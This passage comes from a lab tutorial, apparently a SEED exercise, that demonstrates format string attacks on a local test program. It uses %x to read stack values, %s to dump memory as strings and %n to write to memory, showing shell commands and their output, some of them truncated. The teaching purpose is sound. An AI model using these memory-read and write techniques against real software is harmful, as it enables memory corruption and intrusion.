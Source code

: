 Notice how we see {\em 0xbffff04c} three times, each corresponding to one of the {\em ip}s in the source. Type doesn’t matter. 
 
Since we know that the 12, 13 and 14th \%x is reading the {\em ip}s off the stack, we can also reinterpret them as c-strings instead of longs. What I mean by this is we can change the 14th \%x into \%s for example. 

\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142.bffff04c.bffff04 
c.BABEL���L���L���.1a42d000 
\end{code}
 
Notice how we now see {\tt BABEL...} instead of {\tt bffff04c}. This is expected because {\tt 0x45424142} is {\tt BABE} in reverse order (little endian again). Why do we see an {\tt L}? That is because {\tt 0x4C} (the lowest byte of the address (the next byte on the stack) is the ASCII for the letter 'L'. 
 
But the purpose of this exercise is to try \%n. So let’s do it. 
 
You can try to change the 14th \%x into a \%n, but we won’t do that. Instead we will change the 12th one.  

\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142..bffff04c.bffff0 
4c.bfb5a900 
\end{code}
 
Notice how nothing seemed to have changed in the output except we have two dots after {\tt 0x45424142}. This should make sense since \%n only stores the number of characters written out so far into the int pointed to by that address (that is {\em *ip = count}). Nothing is written out.  
 
So how do we see if it worked? We have already done this before. We can use a \%s to use one of the other addresses to treat it as a c-string and print it out. Thus, let’s combine the two previous inputs and change the 12th \%x into \%s, the 13th into \%n and the 14th into \%s. 

\begin{code} 
seed@SEED:~/TEST$ ./a.out $'%
2f.b7e19dc8.b7fd7858.8000.b7fbf000.b7fbd244.bffff114.2.0.b7e3ba30.45424142.BABEL���L���L�� 
�..\.c50b7100 
\end{code} 
 

